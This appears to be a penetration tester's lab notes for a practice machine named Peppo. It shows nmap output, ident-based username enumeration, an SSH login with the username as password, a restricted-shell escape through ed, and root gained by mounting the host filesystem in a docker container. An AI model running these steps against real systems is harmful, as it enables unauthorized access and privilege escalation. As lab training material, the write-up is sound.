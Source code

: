 # Peppo
# date 19/8/2023
# ip 192.168.164.60

easy gussable creds to ssh > get out rbash with gtfo > grp member of docker > gtfo commands got root

# nmap
PORT      STATE  SERVICE           REASON         VERSION
22/tcp    open   ssh               syn-ack ttl 61 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
53/tcp    closed domain            reset ttl 61
113/tcp   open   ident             syn-ack ttl 61 FreeBSD identd
5432/tcp  open   postgresql        syn-ack ttl 60 PostgreSQL DB 12.3 - 12.4
8080/tcp  open   http              syn-ack ttl 60 WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
10000/tcp open   snet-sensor-mgmt? syn-ack ttl 61


└─$ ident-user-enum 192.168.164.60 10000
192.168.164.60:10000    eleanor


always try name as pass

ssh
eleanor:eleanor

got shell but ristricted

eleanor@peppo:~$ echo $PATH
/home/eleanor/bin
eleanor@peppo:~$ ls /home/eleanor/bin
chmod  chown  ed  ls  mv  ping  sleep  touch


gtfobins

ed
!/bin/sh

PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
python -c 'import pty; pty.spawn("/bin/bash")'
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin




# priv esc
id
docker image ls

docker run -v /:/mnt --rm -it redmine chroot /mnt sh



